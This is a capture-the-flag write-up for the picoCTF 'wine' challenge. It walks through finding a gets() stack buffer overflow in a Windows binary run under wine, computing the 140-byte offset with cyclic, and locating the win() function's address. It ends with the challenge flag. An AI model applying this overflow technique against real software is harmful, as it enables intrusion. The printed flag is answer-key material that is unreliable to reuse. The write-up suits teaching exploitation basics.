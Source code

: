 # wine

Author: David

## Description

Challenge best paired with wine.
I love windows. Checkout my exe running on a linux box. You can view source here. And connect with it using [host, port]

## Solution

"Wine" in the challenge title and description refers to the `wine` application that can be installed on Linux. This allows EXE files to run on Linux systems, even though those files were meant for Windows.
Run the program with `wine`.
```
$ wine vuln.exe 
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
Create a project in Ghidra and examine the `main()` function. Eventually, `main()` calls `vuln()`, and the code for that function looks like this:
```
void _vuln(void)

{
  char local_8c [136];
  
  _puts("Give me a string!");
  _gets(local_8c);
  return;
}
```
This allocates 136 characters for a variable called `local_8c`, which the program receives from us through the (very insecure) `gets()` function. This is the basis of the exploit. 
A simple buffer overflow challenges like this one requires only a few pieces of information:
    1. How many padding characters do we need to full the buffer?
    2. Where to we need to jump, or what to we need to overwrite?
    3. How is the exploit put together?

### Determining the number of characters...
This can be done with `cyclic`. (From `pwntools`; can be accessed directly from the command line.)
Create a cyclic string of 200 characters with `cyclic 200`, and then pipe that string into the program as input. When the program crashes, close wine's GUI debugger, and view the error information in the terminal. Here's the beginning of that output:
```
$ echo "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab" | wine ./vuln.exe 
Give me a string!
wine: Unhandled page fault on read access to 6261616B at address 6261616B (thread 0009), starting debugger...
Unhandled exception: page fault on read access to 0x6261616b in 32-bit code (0x6261616b).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:6261616b ESP:0064fe20 EBP:6261616a EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0064fd90 EBX:00230f14 ECX:0064fd80 EDX:7fa358b8
 ESI:00000040 EDI:00111874
Stack dump:
0x0064fe20:  6261616c 6261616d 6261616e 6261616f
0x0064fe30:  62616170 62616171 62616172 62616173
0x0064fe40:  62616174 62616175 62616176 62616177
0x0064fe50:  62616178 62616179 00230f00 00111874
0x0064fe60:  0064fe98 00000000 00000000 00000000
0x0064fe70:  00000000 00000000 00000000 00000000
```

Notice - "read access at "6261616B..." - those represent characters from our cyclic string, represented in hex. Luckily, `cyclic -l 0x6261616B` will tell us that this represents 140 characters. But what do we write?

### Writing to the win function
In CTF binary exploitation challenges, the goal of the exploit might be to redirect the program to the a "win" or "printflag" function. In this case it's a `win()` function.
`objdump -d vuln.exe` shows us the dissassembler output so we can find the address of the function. Below, I've edited the command for brevity in the output:
```
$ objdump -d vuln.exe | grep _win
00401530 <_win>:
  401551:	75 18                	jne    40156b <_win+0x3b>
  ```

0x0401530 is the address we need to write in order to move to the `win()` function.

### Notes on building the exploit 
* The address we include in our exploit needs to be packed in a specific way for the program to interpret it correctly. There are issues in doing this easily in Python3, so the script below works in Python2, and all imports are built-in.
* Wine apparently takes quite a while to load over the server. I've noticed it's anywhere from 1 to 15 seconds, so I've set the program to wait 15 seconds before trying to send or receive anything.
* Once sent, the our script will collect the flag and print it to our screen, and the connection between our machine and the server will be closed.

[wine_exploit.py](scripts/wine_exploit.py)


**Flag: picoCTF{Un_v3rr3_d3_v1n_1b40efad}**
